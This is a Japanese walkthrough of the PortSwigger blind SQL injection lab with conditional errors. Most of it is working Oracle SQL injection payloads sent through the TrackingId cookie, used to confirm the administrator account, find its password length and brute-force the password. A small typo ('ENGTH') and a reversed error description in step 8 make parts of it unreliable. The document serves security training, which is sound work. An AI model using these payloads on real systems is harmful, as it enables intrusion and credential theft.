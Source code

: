 # 条件付きエラーを伴うブラインド SQL インジェクション

次のハッキングラボを実施します  
https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors  
このラボにはブラインド SQL インジェクションの脆弱性が含まれています。アプリケーションは分析に追跡 Cookie を使用し、送信された Cookie の値を含む SQL クエリを実行します。

- 1. BurpSuite を起動して、Proxy タブからブラウザを立ち上げます
- 2. ブラウザからハッキングラボにアクセスします
- 3. TrackingId を含む Cookie があるリクエストを send to repeater します
- 4. クエリを付加してリクエストを送信すると失敗します

```
Cookie: TrackingId=AuqZKS4ZK1k06s2b'||(SELECT '')||'
```

- 5. Oracle の構文でリクエストを修正して送信します。エラーが出ませんでした。

```
Cookie: TrackingId=AuqZKS4ZK1k06s2b'||(SELECT '' FROM dual)||';
```

- 6. users テーブルの存在を確認します。エラーが出ないのでテーブルが存在します。

```
Cookie: TrackingId=AuqZKS4ZK1k06s2b'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```

- 7. 以下の SQL でデータを探ります

```
Cookie: TrackingId=AuqZKS4ZK1k06s2b'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```

- 8. ユーザーの存在有無を確認します。エラーにならないので administrator が存在します。

```
Cookie: TrackingId=AuqZKS4ZK1k06s2b'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

- 9. パスワード文字数を探ります

```
Cookie: TrackingId=AuqZKS4ZK1k06s2b'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

ENGTH(password)>19 はエラーにならず、ENGTH(password)>20 はエラーになるのでパスは 20 文字です。

- 10. リクエストを send to intruder します
- 11. 以下のリクエストを桁を変えながら 20 回行います

```
Cookie: TrackingId=AuqZKS4ZK1k06s2b'||(SELECT CASE WHEN SUBSTR(password,1,1)='$a$' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

パラメータリストは 0 ～ 9, a ～ z を登録してアタックします、
アタック成功した文字のエラーコードは 500 で返ってきます。
SUBSTR(password,20,1)まで行います。

- 12. 判明したパスワードと id でログインします
